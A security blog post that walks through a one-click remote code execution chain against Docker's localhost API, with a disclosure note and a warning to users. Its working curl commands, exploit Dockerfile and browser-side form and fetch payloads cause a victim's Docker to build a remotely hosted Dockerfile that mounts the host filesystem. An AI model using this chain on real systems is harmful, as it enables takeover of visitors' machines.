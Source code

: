 ```yaml
---
layout: post
title: Developing a Docker 1-Click RCE chain for fun
description: >
  In this blog post we will explore the possibility of abusing Docker's API to achieve a 1-click RCE chain.
sitemap: false
hide_last_modified: true
---
```


## Developing a Docker 1-Click RCE chain for fun
I'd like to preface this post by highlighting that this chain requires users to enable a specific setting in their Docker settings. Default installations are secure but if you are a regular Docker user then please make sure that you have this option disabled as otherwise you are vulnerable to RCE.

## Docker
When developing CTF challenges I often make use of Docker for its simple deployments and security guarantees. It was during some recent CTF-related endeavours that I happened upon the following configuration option for Docker which caught my eye.

![Docker API Setting](/assets/img/blog/docker_daemon_setting.png)

The configuration option is pretty simple; it will expose the "Docker API" on port 2375. Docker's official website provides a description of this API.

> The Docker Engine API is a RESTful API accessed by an HTTP client such as wget or curl, or the HTTP library which is part of most modern programming languages.

At the current time of writing the latest version is 1.47 and its endpoints are documented [here](https://docs.docker.com/reference/api/engine/version/v1.47/).

This poses the question; *why the strict warning?* Of course having access to this API allows you to create containers and execute code. The daemon also makes it possible to escalate your priveleges to the host machine. There have been many cases of attacks against exposed Docker APIs in the past but this is due to the API being made accessible to the outside world. Surely having it bound to localhost is fine?

## Abusing the API
As previously mentioned; attacks against exposed Docker APIs are pretty well defined. In fact, PayloadAllTheThings has an exploit script for exactly this case [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Docker%20API%20RCE.py).

The aforementioned exploit script fetches all container IDs and then runs a specific command inside of them. This is good for a general proof of concept but leaves a lot unexplored. *What if there's no containers?* *How do we get root access in the host context?* *What if the network configuration doesn't allow a callback?*

### Creating Containers

We can answer the first question pretty easily. The Docker API defines an endpoint to create your own containers. Using this, we can simply create our own. To escalate our privileges then we can make use of the `HostConfig` option on the endpoint, particularly the `Binds` part which allows us to create containers with read-write references to the host filesystem.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/mnt"]}}' http://localhost:2375/containers/create?name=shell
```

*To avoid mounting to WSL in Windows you can define a mount to `C:/` and access the Windows filesystem*

This will spawn a container which gives the full host filesystem in `/mnt` within the container and allows us to modify and read these files.

### Starting Containers
Once a container is created, we can start it using the `/containers/<name>/start` endpoint.

Since we passed a `?name=shell` parameter on the previous example we already defined our container name to be `shell` so we can use that.

```bash
curl -X POST http://localhost:2375/containers/shell/start
```

### Executing Commands
Above we have created a container with a mount to the host filesystem. To escalate our priveleges further we want to overwrite files on the host system.

The Docker API also provides a means of executing commands in our newly created container. Namely `/containers/shell/exec` which accepts a `Cmd` POST parameter and returns an `exec_id` and `/exec/<exec_id>/start` endpoint which allows us to run the command.

So we can use something like `jq` to parse the output of the first command, save it as an environment variable and use it in the second command to automate this.

```bash
exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://localhost:2375/containers/shell/exec | jq -r .Id)
curl -X POST "http://localhost:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Since the command to execute is `mkdir /mnt/tmp/pwned` this will create a directory named `pwned` in our `/tmp` directory on the *host* filesystem.

## One-Click RCE
So at this point you should have a good idea of how we can exploit an exposed Docker API. This gave me an idea though; since this runs on `localhost:2375` is there a way for us to abuse this through a browser? That is, could we find a way of exploiting a user who visits our website and has this service running on their localhost?

### SOP
One of the main obstacles to this is Same-Origin Policy which prevents websites from interacting with endpoints of a different origin. There are some tricks to bypass this restriction; redirecting to a URL is usually not blocked. However, most of the important endpoints on the Docker API are POST.

Another common strategy is defining a HTML form with an action pointing to a remote resource and submitting it using javascript's `form.submit()` call. This would allow us to send a single POST request (along with URL parameters) to the API. The problem is that the API seems to be strictly `application/json` and the forms do not support that.

So, can we find an endpoint that will allow us to do everything we need with just a POST primitive?

### Image Builds
I tried a number of different endpoints until I eventually discovered `/build`

![build endpoint](/assets/img/blog/build_endpoint.png)

Interestingly, it accepts URL parameters. The most interesting here was `remote` which allows you to specify a remote URL for a `Dockerfile` and it will install and run the build. I built a HTML form on my website and tested this out to verify it works.

```html
<form action="http://localhost:2375/build?remote=https://<snip>/Dockerfile">
  <input id="btn" type="submit">
</form>
<script>document.getElementById("btn").click();</script>
```

Visiting the above page built my remote Dockerfile into an image.

### Abusing Image Builds
It turns out that image builds take place in their own short-lived container. Here, we can define what gets installed and run arbitrary commands. This gave me an idea for a sort of *"inception"* attack. Could we use the docker image build process to interact with the API *again* but this time using curl where we can set the `application/json` content type.

Well no... Because the build process wouldn't have access to `localhost` on the host machine. Here is where I noticed another optional parameter.

![networkmode parameter](/assets/img/blog/networkmode_option.png)

Aha! We can set the `networkmode` to `host` and this will allow us to interact with `localhost` on the host machine by referencing `host.docker.internal` host. This way we can create a Dockerfile which creates a mounted container to the host, runs commands to overwrite host files and all from them simply visiting our website which submits a form. 😱

## Putting it all Together
Below is my Dockerfile exploit.

```Dockerfile
FROM alpine:latest

RUN apk add --no-cache curl jq

RUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"Privileged":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["C:/:/mnt"]}}' http://host.docker.internal:2375/containers/create?name=shell
RUN curl -X POST http://host.docker.internal:2375/containers/shell/start
RUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://host.docker.internal:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://host.docker.internal:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

Then all we need is a website to complete the POST to `http://localhost:2375/build?remote=http://<snip>/Dockerfile&networkmode=host` for it to execute. You can use the form above or simply run the follow javascript.

```javascript
fetch("http://127.0.0.1:2375/build?remote=https://<snip>/Dockerfile&networkmode=host", {method: "POST", mode: "no-cors"})
```

## Final Remarks
I think there is some more potential to expand from here. If we could build the image using GET then it'd make for a useful SSRF -> RCE gadget. This post was a bit rushed as I wanted a placeholder for my new blog so feel free to reach out to me on X ([@LooseSecurity](https://x.com/loosesecurity)) if you think there's more I could add to this.

I also wanted to point out that I did the *responsible thing* and checked with Docker Security before posting this and it is indeed an accepted risk that if you toggle this option then you are wide open to exploitation.